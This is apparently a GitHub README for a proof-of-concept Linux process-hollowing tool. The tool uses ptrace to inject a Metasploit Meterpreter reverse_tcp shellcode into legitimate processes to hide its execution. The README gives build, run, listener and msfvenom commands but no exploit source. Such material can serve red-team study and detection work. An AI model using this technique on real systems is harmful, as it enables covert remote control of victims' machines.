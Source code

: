 # Linux Process Hollowing with PTRACE

This repository contains a *Proof-of-Concept* (PoC) for **Process Hollowing** on Linux, utilizing the `ptrace` API to manipulate process memory and registers. The goal is to inject and execute malicious shellcode within a legitimate process, thereby disguising its execution.

The shellcode used is a **Metasploit Meterpreter** payload (`linux/x64/meterpreter/reverse_tcp`), pre-configured for a *reverse shell*.

## Usage

### Compile

To get everything ready, use the `Makefile`:

```bash
make build    
make example
```

### Run Hollowing

#### Generic Tool (`hollowing`)

To inject shellcode into any binary, use:

```bash
sudo ./hollowing <path_to_target_binary>
# Example: sudo ./hollowing /bin/sleep
```
This will launch the target binary, inject the shellcode, and execute Meterpreter.

#### Advanced Example

To see the donut spinning while the hollowing happens under the hood (using `/usr/bin/firefox` as the default target):

```bash
./example
```

### Configure Listener

To receive the Meterpreter connection, set up a listener. The `Makefile` already has a task for this:

```bash
sudo make listen-example
```

> Run with `sudo` because port 443 is a privileged port.

### Generate Shellcode (Optional)

If you want to generate your own shellcode, you can use `msfvenom`. The `Makefile` has a task for that too:

```bash
make shellcode
```
